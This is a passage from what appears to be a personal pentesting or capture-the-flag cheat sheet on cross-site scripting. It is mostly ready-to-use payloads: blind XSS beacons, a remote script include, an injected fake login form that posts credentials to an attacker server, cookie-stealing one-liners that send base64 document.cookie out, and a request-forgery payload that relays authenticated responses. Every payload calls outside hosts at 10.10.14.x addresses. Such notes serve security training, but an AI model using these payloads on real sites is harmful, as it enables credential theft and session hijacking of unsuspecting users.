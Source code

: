   - Blind

    - Take the reflected payloads before, and replace `prompt(document.domain)` and its base64 encoded version with:

      ```javascript
      xhr=new XMLHttpRequest;xhr.open("GET","http://10.10.14.190:8888/");xhr.send();
      ```

    - Javascript payload in `evil.js` 

      ```bash
      <script src="http://10.10.14.190:8888/evil.js"></script>
      ```

  - Other payloads: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS Injection/README.md)

- **Login form Injection**

  1. Open a server

  2. Write a malicios login form using  `document.write('[CODE HERE]')`

     ```html
     <h3>Please login to continue</h3><form action=http://10.10.14.141:8888><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>
     ```

- **Cookie stealing**

  Steals cookies to hijack a logged-in session (If they have `HttpOnly: False`)

  ```javascript
  new Image().src="http://10.10.14.3:8888/?c="+btoa(document.cookie);
  ```

  ```javascript
  xhr=new XMLHttpRequest;xhr.open("GET","http://10.10.14.3:8888/?c="+btoa(document.cookie));xhr.send();
  ```

  It will output cookies in base64 (`;` is the splitting charachters for cookies

  1. Extension cookie editor
  2. Add (bottom left)
  3. Save & Refresh

  You can now FUZZ with `-H "Cookie:""`

- **Request Forgery**

  Perform a request on behalf of the victim user and get the response back to to you

  ```javascript
  function b(){sr=new XMLHttpRequest;sr.open("GET","http://10.10.14.3:8888/?c"+btoa(this.responseText));sr.send();};xhr=new XMLHttpRequest;xhr.open("[METHOD]","[URL]");xhr.withCredentials=true;xhr.onload=b;xhr.send();
  ```
